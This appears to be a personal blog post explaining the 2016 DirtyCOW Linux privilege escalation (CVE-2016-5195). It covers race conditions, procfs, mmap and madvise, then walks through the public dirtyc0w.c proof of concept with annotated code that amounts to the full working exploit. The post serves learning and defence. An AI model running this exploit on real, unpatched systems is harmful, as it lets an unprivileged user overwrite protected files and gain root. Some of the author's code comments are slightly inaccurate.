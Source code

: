```yaml
---
layout: post
title:  "DirtyCOW privilege escalation"
date: 2020-12-27 19:01:52 -0500
categories: security
---
```

## Why this?
Having no security experience (and this blog should not be interpreted in any way to be that I know what I'm talking about), I decided this year to participate in TryHackMe's [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2). One of the challenges referenced the DirtyCOW privilege escalation (CVE-2016-5195), something I had only heard in passing without having any in-depth knowledge. I figured I should broaden my horizons a bit to do some research, understand why proof of concepts work, be able to explain it and demo it and write something up about it.. even if it is from 2016

## Background
CVE-2016-5195 is a privilege escalation vulnerability in the Linux Kernel, which takes advantage of a race condition found where the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings

This effectively can allow an unprivileged user to increase their privileges on the system

### Race condition
A race condition is when a system that handles tasks in a specific sequence is forced to perform two or more operations simultaneously

### proc filesystem (procfs)
procfs presents information about processes and other system information in a hierarchical file-like structure. This makes it more convenient to access process data in the kernel rather than having to use tracing methods. This kind of acts as a communication between kernel and user space in memory

Linux separates its directories as `/proc/PID` (`PID` is the process number). One of the directories of interest is `/proc/self`, which is a symbolic link to the `PID` of the current process. For example, if you were to run `ls -la /proc/self` multiple times, the symbolic link changes to another `PID`

```
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 84
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 85
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 86
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 87
stephen@ubuntu:/home/stephen$
```

## Important Linux system calls
These calls are used in the proof of concepts

### mmap
```c
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
int munmap(void *addr, size_t length);
```
`mmap()` creates a new mapping in the virtual address space of the calling process

### madvise
```c
#include <sys/mman.h>
int madvise(void *addr, size_t length, int advice);
```
`madvise()` gives advice or directions to the kernal about the address range. This begins at the address `addr` and ends with the `length` offset. This is generally to improve system or application performance

The `advice` value that used in the proof of concept is `MADV_DONTNEED`. This means "Do not expect access in the near future"

This is used because we have two steps in the proof of concept, given a root_file

1. Locate the physical address of the root_file
2. Write to that address

`madvise()` is inserted between those two steps with the `MADV_DONTNEED` advice value, which says we don't need the private mapping anymore

## dirtyc0w proof of concept
This section reviews the proof of concept at https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c. Understanding this proof of concept helps to further explain the other proofs on concept at https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs, or at least I hope so. This should also be pretty fun as I have little to no c experience

### High-level
When compiled, dirtyc0w.c takes two arguments:
1. protected file
2. contents to write to the protected file

The program opens the file in read only mode. It then creates a new, private copy-on-write mapping in the virtual address space, that has the same size as our protected file

Two threads are then created:
1. `madvise()` will set the mapping that we created earlier to tell the system that the private mapping isn't needed anymore
2. `procselfmem` opens the `/proc/self/mem` file in read/write mode, resets the file pointer back to the start of the file and starts writing contents to the protected file at the beginning of the file

### c code
I won't bother copying/pasting the entire thing here, but just talk about the different sections
```c
void *madviseThread(void *arg)
{
  char *str;                            
  str=(char*)arg;                       
  int i,c=0;                            // Initialize for-loop variables
  for(i=0;i<100000000;i++)              // 
  {                                     // For-loop over 100000000 bytes
    c+=madvise(map,100,MADV_DONTNEED);  // in 100 byte increments
  }                                     // in the new mapping to set
  printf("madvise %d\n\n",c);           // madvise that the private
}                                       // mapping isn't needed
```

```c
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;

  int f=open("/proc/self/mem",O_RDWR);  // Open /prov/self/mem/
  int i,c=0;                            // in read/write
  for(i=0;i<100000000;i++) {            // For-loop over 100000000 bytes
    
    lseek(f,(uintptr_t) map,SEEK_SET);  // Reset the file pointer to the
                                        // file start position in memory
    c+=write(f,str,strlen(str));        // Write arg to the file
  }
  printf("procselfmem %d\n\n", c);
}
```

```c
int main(int argc,char *argv[])
{
  // Checking for arguments
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;

  // Open the protected file in read-only mode
  f=open(argv[1],O_RDONLY);
  // Populate the st struct (of type stat) with the file information
  fstat(f,&st);
  name=argv[1];

  // Creates a private mapping, which causes the copy-on-write mapping
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);

  // Sets up the first thread madvise()
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  // Sets up the second thread to write to /proc/self/mem
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);

  // Wait for the threads to finish
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

## See also
* https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
* https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
* https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html
* https://www.secpod.com/blog/dirty-cow-vulnerability/
* https://www.veracode.com/security/race-condition
* https://en.wikipedia.org/wiki/Procfs
* https://www.man7.org/linux/man-pages/man2/mmap.2.html
* https://man7.org/linux/man-pages/man2/madvise.2.html
